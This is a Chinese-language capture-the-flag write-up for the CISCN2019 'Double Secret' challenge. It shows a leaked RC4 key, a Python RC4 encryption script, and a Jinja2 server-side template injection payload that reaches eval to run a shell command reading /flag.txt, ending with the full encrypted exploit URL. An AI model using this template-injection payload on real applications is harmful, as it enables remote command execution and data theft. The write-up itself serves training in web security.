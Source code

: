 # [CISCN2019 华东南赛区]Double Secret

![image-20210526132450327]([CISCN2019 华东南赛区]Double Secret/image-20210526132450327.png)

## 知识点

- RC4加密
- SSTI进行任意命令执行

## 解题

访问`/secret`目录，可以看到提示

![image-20210526132533868]([CISCN2019 华东南赛区]Double Secret/image-20210526132533868.png)

尝试一下输入一个`secret`参数

![image-20210526132716537]([CISCN2019 华东南赛区]Double Secret/image-20210526132716537.png)

可以看到`a`被加密了

尝试别的字符串加密时，发现报错了

![image-20210526132743404]([CISCN2019 华东南赛区]Double Secret/image-20210526132743404.png)

![image-20210526132907113]([CISCN2019 华东南赛区]Double Secret/image-20210526132907113.png)

```python
 if(secret==None):

        return 'Tell me your secret.I will encrypt it so others can\'t see'

    rc=rc4_Modified.RC4("HereIsTreasure")   #解密

    deS=rc.do_crypt(secret)

    a=render_template_string(safe(deS))

    if 'ciscn' in a.lower():

        return 'flag detected!'

    return a

 [Open an interactive python shell in this frame]  
```

可以看到如果`secret`为空，则返回`Tell me your secret.I will encrypt it so others can\'t see`

如果传入参数，就会进行RC4解密。同时泄露了密钥"HereIsTreasure" ​

### 构造一下RC4加密脚本

```python
import base64
from urllib import parse

def rc4_main(key = "init_key", message = "init_message"):
    # print("RC4加密主函数")
    s_box = rc4_init_sbox(key)
    crypt = str(rc4_excrypt(message, s_box))
    return  crypt
def rc4_init_sbox(key):
    s_box = list(range(256))  # 我这里没管秘钥小于256的情况，小于256不断重复填充即可
    # print("原来的 s 盒：%s" % s_box)
    j = 0
    for i in range(256):
        j = (j + s_box[i] + ord(key[i % len(key)])) % 256
        s_box[i], s_box[j] = s_box[j], s_box[i]
    # print("混乱后的 s 盒：%s"% s_box)
    return s_box
def rc4_excrypt(plain, box):
    # print("调用加密程序成功。")
    res = []
    i = j = 0
    for s in plain:
        i = (i + 1) % 256
        j = (j + box[i]) % 256
        box[i], box[j] = box[j], box[i]
        t = (box[i] + box[j]) % 256
        k = box[t]
        res.append(chr(ord(s) ^ k))
    # print("res用于加密字符串，加密后是：%res" %res)
    cipher = "".join(res)
    # print("加密后的字符串是：%s" %cipher)
    # print("加密后的输出(经过编码):")
    # print(str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
    return (str(base64.b64encode(cipher.encode('utf-8')), 'utf-8'))
# rc4_main("123456sh","123456sh")
key = "HereIsTreasure"  #此处为密文
message = input("请输入明文:\n")
enc_base64 = rc4_main( key , message )
enc_init = str(base64.b64decode(enc_base64),'utf-8')
enc_url = parse.quote(enc_init)
print("rc4加密后的url编码:"+enc_url)
#print("rc4加密后的base64编码"+enc_base64)
```

### 构造SSTI的payload

把`payload`进行加密，当做`secret`传入

```python
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag.txt').read()")}}{% endif %}{% endfor %}
```

加密

```python
.J%19S%C2%A5%15Km%2B%C2%94%C3%96S%C2%85%C2%8F%C2%B8%C2%97%0B%C2%90X5%C2%A4A%C3%9FMD%C2%AE%07%C2%8BS%C3%9F7%C3%98%12%C3%85r%C3%A9%1B%C3%A4%2A%C3%A7w%C3%9B%C2%9E%C3%B1h%1D%C2%82%25%C3%AD%C3%B4%06%29%7F%C3%B0o%2C%C2%9E9%08%C3%87%C3%B7u.%C3%BB%C2%95%14%C2%BFv%05%19j%C2%AEL%C3%9A-%C3%A3t%C2%AC%7FX%2C8L%C2%81%C3%91H%C3%BF%C3%B6%C3%A3%C3%9A%C3%B5%C2%9A%C2%A6%23%06%C2%A7%C2%B8%C2%BB%C2%B9%C3%A6ny%C3%98%C3%8Aj%C2%BB%25X%15%C3%97%C2%84F%24%1As%5E%C2%9B%C3%97%C2%A4%20j%C2%A5/%17%1C%C3%9Fs%C2%AF6%C3%85%C2%A5%C2%B1.%C3%A8%C2%A2Y%21%C2%A8%C3%A0%10%C2%8Aa%5D%5C%2B%C3%8E%C2%B0%C2%99%C3%A0%C2%BE%C2%87-%10x%20%5D%C3%9A%0B%C2%882P%C3%A3%C3%93%08n0%C3%AE%C3%BDb%C2%B1%C3%80%C3%B6%1F%5B%C2%88B%23~%C3%A6%C2%BC%5D%C2%81%C3%BF%C3%88d%C2%AE%C2%B8%C3%8E2%C2%92%20C%C2%B7%C2%B7%C2%95%C3%95Wj%C3%93%C2%B5%C3%AA_%C2%A1%2B%C2%87%C2%B5l%08%27%3F%C3%96
```

最终结果

```pyt
http://9649ea96-1d44-4b2c-a6b8-d4e0f762f98a.node3.buuoj.cn/secret?secret=.J%19S%C2%A5%15Km%2B%C2%94%C3%96S%C2%85%C2%8F%C2%B8%C2%97%0B%C2%90X5%C2%A4A%C3%9FMD%C2%AE%07%C2%8BS%C3%9F7%C3%98%12%C3%85r%C3%A9%1B%C3%A4%2A%C3%A7w%C3%9B%C2%9E%C3%B1h%1D%C2%82%25%C3%AD%C3%B4%06%29%7F%C3%B0o%2C%C2%9E9%08%C3%87%C3%B7u.%C3%BB%C2%95%14%C2%BFv%05%19j%C2%AEL%C3%9A-%C3%A3t%C2%AC%7FX%2C8L%C2%81%C3%91H%C3%BF%C3%B6%C3%A3%C3%9A%C3%B5%C2%9A%C2%A6%23%06%C2%A7%C2%B8%C2%BB%C2%B9%C3%A6ny%C3%98%C3%8Aj%C2%BB%25X%15%C3%97%C2%84F%24%1As%5E%C2%9B%C3%97%C2%A4%20j%C2%A5/%17%1C%C3%9Fs%C2%AF6%C3%85%C2%A5%C2%B1.%C3%A8%C2%A2Y%21%C2%A8%C3%A0%10%C2%8Aa%5D%5C%2B%C3%8E%C2%B0%C2%99%C3%A0%C2%BE%C2%87-%10x%20%5D%C3%9A%0B%C2%882P%C3%A3%C3%93%08n0%C3%AE%C3%BDb%C2%B1%C3%80%C3%B6%1F%5B%C2%88B%23~%C3%A6%C2%BC%5D%C2%81%C3%BF%C3%88d%C2%AE%C2%B8%C3%8E2%C2%92%20C%C2%B7%C2%B7%C2%95%C3%95Wj%C3%93%C2%B5%C3%AA_%C2%A1%2B%C2%87%C2%B5l%08%27%3F%C3%96
```

![image-20210526133438967]([CISCN2019 华东南赛区]Double Secret/image-20210526133438967.png)